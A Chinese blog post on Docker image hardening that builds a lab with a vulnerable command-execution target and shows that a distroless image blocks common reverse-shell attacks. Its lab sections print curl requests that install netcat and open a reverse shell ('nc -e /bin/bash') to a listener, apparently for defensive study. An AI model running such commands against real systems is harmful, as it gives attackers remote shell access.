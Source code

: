 ```yaml
---
layout: post
title: 学习 shell 反弹实现， 优化 Docker 基础镜像安全
categories: [docker, security]
description: 优化精简容器镜像， 降低 shell 反弹攻击风险
keywords: docker, dockerfile, security, shell 
---
```


# 学习 shell 反弹实现， 优化 Docker 基础镜像安全

天天都在说优化 Dockerfile。 到底怎么优化， 优化后的检验指标又是什么？ 没有考虑清楚行动目的， 隔空放炮， 必然徒劳无功。

笔者最近准备在 CI 上增加安全检测， 在分析案例样本的时候， 找到了比较流行的 struts2 漏洞， 其中 [S2-052 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-052/README.zh-cn.md) 的利用方式就是在 POST 请求中添加恶意代码或命令。

如 Demo 片段所示。

```xml
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
```

## 0x01 确认目标

既然可以远程执行命令了， 那么如何拿到服务器权限也就是必然考虑的事情， 如 `webshell` 、 `shell 反弹` 等 。 

在翻阅的搜索引擎靠前《常见 shell 反弹方式和利用》的文章之后，总结如下。 

**shell 反弹** 即 **使用 `1. 任意方式` 将 `2. /bin/sh` 通过 `3. 网络连接` 方式连接到 `4. 攻击机`**

其中 **任意方式** 常见为:

1. 使用各种 `程序命令` 创建 shell 网络通信
2. 使用各种 `编程语言` 即使构造 shell 网络通信， **对于解释型语言而言，即为依赖运行环境**。
3. 使用 `操作系统中的设备文件` 创建 shell 网络通信。

以上 4个 条件中， 在预设环境中， 能管理的就有 `1. 任意方式` 和 `2. /bin/sh`。 
优化镜像目标已经很明确了， 精简环境， 减少 `1. 和 2.` 的存在


## 0x02 环境准备

根据目标， 设计了一个靶机， 功能是将 POST 的命令直接转换成命令执行。 代码已经放在 Github 上， [任意命令执行漏洞靶机](https://github.com/tangx/vulhub/tree/master/cmd/shell/reflect2) 。

并产出了两个容器镜像。

+ `doslab/vulhub-reflect2:latest` 使用 debian 官方镜像
+ `doslab/vulhub-reflect2:static` 使用 debian 精简镜像， 更多信息参考 [GoogleContainerTools/distroless](https://github.com/GoogleContainerTools/distroless)  


### 0x02.1 部署靶机

```bash
## debian:buster
docker run --rm -d -p 8081:8080 doslab/vulhub-reflect2:latest

## distroless/debian-static10
docker run --rm -d -p 8082:8080 doslab/vulhub-reflect2:static
```

### 0x02.2 利用方式

向接口发送 JSON 数据， 方式如下

```bash
curl -X POST http://127.0.0.1:8081/v0/cmd -d '{
    "command":"ls",
    "args":["-l","-a","-h"]
}'
```

## 0x03 实验开始

### 0x03.1 lastest 靶机

```bash
nc -nvlp 4444
```

```bash
# latest
## nc -v 192.168.233.3 4444 -e /bin/bash
curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"bash",
    "args":["--version"]
}'

curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"apt",
    "args":["update"]
}'

curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"apt",
    "args":["install", "-y", "netcat"]
}'

curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"nc",
    "args":["-v", "192.168.233.3", "4444", "-e", "/bin/bash"]
}'
```


### 0x03.2 static 靶机

**攻击机** 准备监听端口 `5555`

```bash
nc -nvlp 5555
```

**漏洞利用**

```bash
# static
curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"bash",
    "args":["--version"]
}'

curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"apt",
    "args":["update"]
}'

curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"apt",
    "args":["install", "-y", "netcat"]
}'

curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"nc",
    "args":["-v", "192.168.233.3", "5555", "-e", "/bin/bash"]
}'
```

## 0x04 结论

在使用了 **google distroless 镜像** 之后， 在一定程度上阻止了服务漏洞带来的 **常见 shell 反弹攻击** 。 尤其是在类似 golang 这类编译型的语言， 运行环境需求相对简单。 

所以， 在管理 Dockerfile 时

1. **选择或制作简单且符合业务需求的镜像**
    + `1. 可被利用的漏洞或方式越少`
    + `2. 镜像更小， 分发更快`
2. 干净整洁的 docker context 环境
3. 合理的命令层级顺序， 以达到更多的 layer 复用。

其他 Dockerfile 使用探究， 可以阅读 
+ [使用 Dockerfile 构建镜像注意事项](https://tangx.in/2019/03/26/how-to-build-a-image-with-dockerfile/)
+ [Dockerfile 中 ARG 的使用与其的作用域探究](https://tangx.in/2020/11/06/dockerfiles-args-scope)
+ [多阶构建](https://tangx.in/2018/10/30/docker-multi-stage-build/)

## 0xGG 参考文档

+ [反弹Shell原理及检测技术研究](https://www.cnblogs.com/LittleHann/p/12038070.html#_label0)
+ [linux各种一句话反弹shell总结](https://www.anquanke.com/post/id/87017)
+ [反弹shell利用方式](https://www.cnblogs.com/ktfsong/p/11265734.html)

